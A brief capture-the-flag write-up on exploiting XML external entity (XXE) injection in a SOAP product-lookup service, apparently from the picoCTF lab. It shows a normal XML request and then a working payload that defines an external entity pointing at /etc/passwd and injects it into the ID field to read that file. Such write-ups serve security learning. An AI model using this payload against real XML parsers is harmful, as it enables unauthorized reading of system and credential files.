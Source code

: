 # XXE in SOAP (picoCTF-XXE0)

> An application using SOAP to fetch some details about their products was vulnerable to XXE attack. Expolited that vulnerability by creating an external entity that resolves to the contents of /etc/passwd file and got the flag


```xml
<?xml version="1.0" encoding="UTF-8"?>
  <data>
    <ID>3</ID>
</data>
```

**Payload** 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data><ID>&example;</ID></data>
```
